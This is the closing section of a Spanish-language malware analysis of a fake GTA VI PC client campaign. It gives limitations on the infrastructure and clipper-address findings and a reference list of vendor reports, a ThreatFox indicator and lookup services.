- **Infraestructura.** Los dominios que comparten IP con el C2 y los JARM no son indicadores fiables. Las IPs del señuelo cambian a menudo.
- **Clipper.** Solo he comprobado 145 de las 8.172 direcciones, y no las de Solana ni Monero.

## Referencias

- Threat Landscape, [publicación en X con los indicadores iniciales](https://x.com/LandscapeThreat), 21 de noviembre de 2026
- Bitdefender Labs (Janos Gergo Szeles y Silviu Stahie), [Fake GTA VI PC client spreads malware through a ClickFix attack](https://www.bitdefender.com/en-us/blog/labs/fake-gta-vi-pc-client-malware-clickfix), 20 de noviembre de 2026
- Bitdefender, [Fake GTA VI PC cloud player is malware](https://www.bitdefender.com/en-us/blog/hotforsecurity/fake-gta-vi-pc-cloud-player-malware), 20 de noviembre de 2026
- Hackread, [Fake GTA VI Streaming Client Installs Data-Stealing Malware on Windows PCs](https://hackread.com/fake-gta-vi-streaming-client-malware-windows-pc/), 21 de noviembre de 2026
- JaffaCakes118, [indicador 2030638 en ThreatFox](https://threatfox.abuse.ch/ioc/2030638/) (`velmontriq[.]net`)
- Malwarebytes, [Fake GTA 6 Extended Look and demo sites deliver an infostealer](https://www.malwarebytes.com/blog/threat-intel/2026/08/fake-gta-6-extended-look-and-demo-sites-deliver-an-infostealer), agosto de 2026 (otra campaña, sin relación demostrada)
- Help Net Security, [Fake GTA 6 download goes after Steam logins and crypto wallet data](https://www.helpnetsecurity.com/2026/11/13/fake-gta-6-download-scam/), 13 de noviembre de 2026 (otra campaña, sin relación demostrada)
- Microsoft Learn, [LoadPerfCounterTextStringsW (loadperf.h)](https://learn.microsoft.com/es-es/windows/win32/api/loadperf/nf-loadperf-loadperfcountertextstringsw)
- MODAT, VirusTotal, urlscan, AbuseIPDB, Shodan y ThreatFox: consultas propias del 21 de noviembre de 2026
